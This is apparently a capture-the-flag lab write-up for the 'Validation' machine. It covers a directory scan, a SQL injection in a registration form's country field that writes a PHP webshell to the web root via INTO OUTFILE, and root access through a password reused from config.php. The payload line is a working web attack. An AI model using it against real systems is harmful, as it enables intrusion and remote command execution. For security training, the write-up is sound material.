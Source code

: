 # Validation

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

### SQL Injection for RCE

The website contains a simple register function that takes user input.

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

When proxying the traffic, the POST request is submitted like so:

```http
username='&country=Afganistan
```

When viewing our request, this is what we would see:

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

A quick directory scan reveals there is an `account.php` endpoint on the machine.&#x20;

```
$ feroxbuster -u http://10.10.11.116 -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.116
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      309c http://10.10.11.116/js
200        0l        0w        0c http://10.10.11.116/config.php
301        9l       28w      310c http://10.10.11.116/css
200        1l        2w       16c http://10.10.11.116/account.php
200      268l      747w        0c http://10.10.11.116/index.php
403        9l       28w      277c http://10.10.11.116/server-status
```

The `config.php` endpoint presented an empty screen, which I think we have to look into after gaining a shell. Anyways, the `account.php` file displayed an SQL error when trying to view the player I registered.

<figure><img src="../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

Instead of enumerating the database, I directly wrote a webshell into the page.

{% code overflow="wrap" %}
```http
username=a&Afganistan' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/cmd.php';#
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell and enumerate the `config.php` file we saw earlier.

## Privilege Escalation

Within the config file, there was a password, which happened to be the root password.

<figure><img src="../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>
